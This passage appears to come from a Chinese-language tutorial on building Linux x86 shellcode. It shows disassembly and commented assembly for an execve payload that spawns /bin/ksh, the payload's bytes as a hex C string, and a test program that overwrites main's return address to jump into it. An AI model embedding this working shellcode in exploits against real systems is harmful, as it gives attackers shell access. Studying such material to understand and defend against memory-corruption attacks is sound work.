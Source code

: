 80483b6:       8d 56 0d                leal   0xd(%esi),%edx
80483b9:       cd 80                   int    $0x80
80483bb:       b8 01 00 00 00          movl   $0x1,%eax
80483c0:       bb 00 00 00 00          movl   $0x0,%ebx
80483c5:       cd 80                   int    $0x80
80483c7:       e8 d1 ff ff ff          call   804839d 
80483cc:       2f                      das
80483cd:       62 69 6e                boundl 0x6e(%ecx),%ebp
80483d0:       2f                      das
80483d1:       6b 73 68 00             imull  $0x0,0x68(%ebx),%esi
/home/scz/src/shellcodeasm.c:21
    ("
        jmp    0x2a                     # 3 bytes
        popl   %esi                     # 1 byte
        movl   %esi,0x9(%esi)           # 3 bytes
        movb   $0x0,0x8(%esi)           # 4 bytes
        movl   $0x0,0xd(%esi)           # 7 bytes
        movl   $0xb,%eax                # 5 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   0x9(%esi),%ecx           # 3 bytes
        leal   0xd(%esi),%edx           # 3 bytes
        int    $0x80                    # 2 bytes
        movl   $0x1, %eax               # 5 bytes
        movl   $0x0, %ebx               # 5 bytes
        int    $0x80                    # 2 bytes
        call   -0x2f                    # 5 bytes
        .string \"/bin/ksh\"            # 9 bytes
    ");
}
80483d5:       c9                      leave
80483d6:       c3                      ret
80483d7:       90                      nop

整理shellcode如下：

eb 2a 5e 89 76 09 c6 46 08 00 c7 46 0d 00 00 00 00 b8 0b 00
00 00 89 f3 8d 4e 09 8d 56 0d cd 80 b8 01 00 00 00 bb 00 00
00 00 cd 80 e8 d1 ff ff ff 2f 62 69 6e 2f 6b 73 68 00 c9 c3

18. 验证shellcode

vi shelltest.c

char shellcode[] =
    "\xeb\x2a\x5e\x89\x76\x09\xc6\x46\x08\x00\xc7\x46\x0d\x00\x00\x00\x00\xb8\x0b\x00"
    "\x00\x00\x89\xf3\x8d\x4e\x09\x8d\x56\x0d\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00"
    "\x00\x00\xcd\x80\xe8\xd1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x6b\x73\x68\x00\xc9\xc3";

int main ()
{
    int * ret;  /* 当前esp指向的地址保存ret的值 */

    ret      = ( int * )&ret + 2;  /* 得到 esp + 2 * 4，那是返回地址IP */
    ( *ret ) = ( int )shellcode;  /* 修改了 main() 函数的返回地址，那是很重要的一步 */
}
